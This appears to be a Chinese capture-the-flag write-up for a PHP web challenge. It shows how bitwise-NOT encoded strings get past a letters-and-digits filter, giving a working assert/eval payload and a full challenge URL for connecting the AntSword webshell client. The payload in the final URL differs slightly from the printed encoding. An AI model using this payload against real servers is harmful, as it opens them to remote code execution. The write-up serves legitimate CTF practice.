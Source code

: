 很直白,过滤了字母数字, 需要进行无字母数字的`rce`

**利用取反性质来构造命令执行, 每一个字符取反之后都会变成另一个字符**

```php
//构造目标 eval($_POST[1])
//这里构造完之后执行会使网页爆500崩溃...

//构造目标 assert(eval($_POST[1]))
<?php
echo urlencode(~"assert");
echo '<br>';
echo urlencode(~"eval(\$_POST[1])");
echo '<br>';
?>
//%9E%8C%8C%9A%8D%8B --assert
//%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6 --eval(\$_POST[1])
    
//那么: assert(eval($_POST[1]))就是:
//?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AD%BA%AE%AA%BA%AC%AB%A4%CE%A2%D6%C4);

//接下来在post中传参: 1=phpinfo();
```

成功执行

<img src="/images/buuctf-web2/image-20221024213819145.png" alt="image-20221024213819145" style="zoom:67%;" />

那么现在通过url和`post`参数就可以使用蚁剑连接了:

```
http://ce4afe32-8659-4ef4-ad14-633769a475a9.node4.buuoj.cn:81/?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AD%BA%AE%AA%BA%AC%AB%A4%CE%A2%D6%C4);
```
